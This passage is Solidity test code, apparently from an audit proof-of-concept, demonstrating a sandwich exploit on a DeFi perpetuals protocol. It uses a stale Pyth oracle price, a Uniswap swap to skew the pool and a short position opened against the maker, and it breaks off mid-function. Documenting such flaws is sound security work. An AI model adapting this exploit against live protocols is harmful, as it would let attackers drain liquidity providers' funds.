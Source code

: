 ```solidity
        config.registerMaker(marketId, address(oracle_maker));
        config.setFundingConfig(marketId, 0.005e18, 1.3e18, address(oracle_maker));
        config.setMaxBorrowingFeeRate(marketId, 10000000000, 10000000000);
        oracle_maker.setMaxSpreadRatio(0.1 ether);
        oracle_maker.setValidSender(exploiter,true);
        pyth = IPyth(0xff1a0f4744e8582DF1aE09D5611b887B6a12925C);
        _mockPythPrice(2000,0);
    }

    function testSandwich() public {
       // deposit 2k collateral as margin for exploiter
       _deposit(marketId, exploiter, 2_000e6);

       // deposit 2000 base tokens ($4M) to the HSBM
       vm.startPrank(makerLp);
       deal(address(baseToken), makerLp, 2000e9, true);
       baseToken.approve(address(maker), type(uint256).max);
       maker.deposit(2000e9);
       vm.stopPrank();

       // exploiter has 43 base tokens ($86K)
       deal(address(baseToken), exploiter, 43e9, true);

       // exploiter balances at the start
       uint256 baseBalanceStart = baseToken.balanceOf(exploiter);
       console.log("exploiter initial values (margin, collateral, base)");
       console.logInt(vault.getMargin(marketId,address(exploiter)).formatDecimals(INTERNAL_DECIMALS,collateralToken.decimals()));
       console.log(collateralToken.balanceOf(exploiter));
       console.log(baseBalanceStart);

       // the price gapped ~7% within the last 60 seconds, and nobody has updated the pyth price,
       // but the uniswap pool has already adjusted
       int64 oldPrice = 2000 * 93 / 100;
       _mockPythPrice(oldPrice,0);

       // first stage: skew in favor of collateral token
       vm.startPrank(exploiter);
       baseToken.approve(address(uniswapV3Router), type(uint256).max);
       uniswapV3Router.exactInput(
           ISwapRouter.ExactInputParams({
               path: uniswapV3B2QPath,
               recipient: exploiter,
               deadline: block.timestamp,
               amountIn: baseToken.balanceOf(exploiter),
               amountOutMinimum: 0
           })
        );

        // second stage: open short position on SHBM
        (int256 pbT, int256 pqT) = clearingHouse.openPosition(
            IClearingHouse.OpenPositionParams({
                marketId: marketId,
                maker: address(maker),
                isBaseToQuote: true,
                isExactInput: true,
                amount: 2e18,
                oppositeAmountBound: 1,
                deadline: block.timestamp,
                makerData: ""
            })
        );

```